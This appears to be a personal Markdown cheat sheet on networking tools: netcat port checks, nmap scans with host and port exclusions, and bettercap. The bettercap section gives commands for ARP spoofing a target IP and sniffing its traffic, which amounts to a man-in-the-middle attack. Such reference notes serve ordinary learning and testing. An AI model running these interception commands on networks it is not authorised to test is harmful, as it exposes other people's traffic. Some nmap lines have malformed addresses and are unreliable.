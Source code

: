 # networking

## netcat

### test port is open

```bash
nc -zv 127.0.0.1 8888
Connection to 127.0.0.1 8888 port [tcp/*] succeeded!

# you can use that as a test for something else
# like ssh when the port is alive
if nc -zv 192.168.0.101 22; then ssh host1; fi
```

## nmap

[nmap docs](https://nmap.org/book/toc.html)
[nmap options](https://nmap.org/book/man-briefoptions.html)

### exclude hosts

```bash
sudo nmap -O -A --max-rate 100 --exclude 192.168.0.129,192.168.0.189,192.168.0.240,192. 192.168.0.2-254 -Pn
```

### exclude ports

```bash
nmap 24.0.0.1\24 --exclude-ports 80
```
## bettercap

[bettercap](https://www.bettercap.org/)

The Swiss Army knife for WiFi, Bluetooth Low Energy, wireless HID hijacking and IPv4 and IPv6 networks reconnaissance and MITM attacks

### install

```bash
sudo apt update
sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
```

### usage

[interactive mode](https://www.bettercap.org/usage/interactive/)

### spoofing

```bash
# launch bettercap
bettercap

# enable full duplex arp spoofing
# so target thinks you're the router
# and router thinks you're target
set arp.spoof.fullduplex true

set arp.spoof.targets 192.168.1.111
arp.spoof on

or 

sudo bettercap -eval "set arp.spoof.targets 192.168.1.20; arp.spoof on"

# sniff for traffic
net.sniff on

# may need to enable IP forwarding if target has no internet
echo 1 > /proc/sys/net/ipv4/ip_forward
```
